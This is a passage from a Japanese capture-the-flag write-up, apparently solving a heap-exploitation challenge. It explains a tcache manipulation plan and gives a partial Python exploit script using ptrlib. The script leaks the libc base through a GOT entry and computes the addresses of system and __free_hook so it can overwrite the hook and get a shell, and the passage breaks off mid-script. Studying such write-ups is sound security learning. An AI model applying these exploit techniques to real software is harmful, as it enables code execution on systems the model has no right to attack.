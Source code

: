 1つtodoを作り、topicを大きくします。
```
tcache[i] --> 空
tcache[j] --> address
```

1つtodoを作り、descを大きくして`system`のアドレスを書き込みます。
最後に`/bin/sh`というtopicのtodoを作って削除すればシェルが取れるはずです。

ということでコードをかきましょう。
```python
from ptrlib import *

def create_todo(topic):
    sock.recvuntil("> ")
    sock.sendline("1")
    sock.recvuntil("topic: ")
    sock.sendline(topic)

def edit_todo(topic, desc, length):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("topic: ")
    sock.sendline(topic)
    sock.recvuntil("Desc length: ")
    sock.sendline(str(length))
    sock.recvuntil("Desc: ")
    sock.sendline(desc)

def delete_todo(topic):
    sock.recvuntil("> ")
    sock.sendline("3")
    sock.recvuntil("topic: ")
    sock.sendline(topic)

def show_todo(lnum):
    sock.recvuntil("> ")
    sock.sendline("4")
    for i in range(lnum):
        ret = sock.recvline()
    return ret.rstrip()

elf = ELF("./challenge")
libc = ELF("./libc6_2.27-3ubuntu1_amd64.so")
#sock = Process("./challenge")
sock = Socket("127.0.0.1", 4003)

# leak libc base
fake_todo = b'AAAAAAAA' + p64(elf.got("__libc_start_main"))
create_todo("A" * 0x10)
edit_todo("A" * 0x10, fake_todo, 0x10)
delete_todo("A" * 0x10)
create_todo("B" * 0x40)
create_todo("C" * 0x10)
ret = show_todo(2)
addr = u64(ret[ret.rfind(b" - ") + 3:])
libc_base = addr - libc.symbol("__libc_start_main")
addr_system = libc_base + libc.symbol("system")
addr_free_hook = libc_base + libc.symbol("__free_hook")
dump("libc base = " + hex(libc_base))
assert 0xFFFFFFFF < libc_base

# overwrite __free_hook
create_todo("X" * 0x10)
edit_todo("X" * 0x10, "big todo", 0x30)
```